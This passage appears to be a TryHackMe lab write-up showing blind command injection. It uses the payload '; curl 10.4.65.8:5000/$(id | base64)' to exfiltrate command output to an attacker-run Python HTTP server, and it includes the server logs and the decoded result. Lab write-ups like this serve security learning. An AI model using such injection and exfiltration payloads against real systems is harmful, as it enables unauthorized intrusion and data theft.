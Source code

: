 ```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
```

- Now we just need to curl to send request to our ip in tryhackme network with specific port. However, we need to encode base64 to send full data
- The payload: ; curl 10.4.65.8:5000/$(id | base64)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.27.205 - - [24/Feb/2024 23:47:04] code 404, message File not found
10.10.27.205 - - [24/Feb/2024 23:47:04] "GET /uid=33(www-data) HTTP/1.1" 404 -
10.10.27.205 - - [24/Feb/2024 23:49:41] code 404, message File not found
10.10.27.205 - - [24/Feb/2024 23:49:41] "GET /dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK HTTP/1.1" 404 -

```

**Final result:** dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK ⇒ 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
